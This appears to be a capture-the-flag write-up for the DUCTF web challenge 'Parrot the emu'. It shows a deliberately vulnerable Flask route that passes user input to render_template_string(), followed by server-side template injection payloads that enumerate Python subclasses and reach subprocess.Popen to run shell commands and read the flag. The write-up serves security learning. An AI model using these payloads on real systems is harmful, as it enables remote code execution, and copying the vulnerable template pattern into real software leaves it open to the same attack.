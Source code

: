 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

  



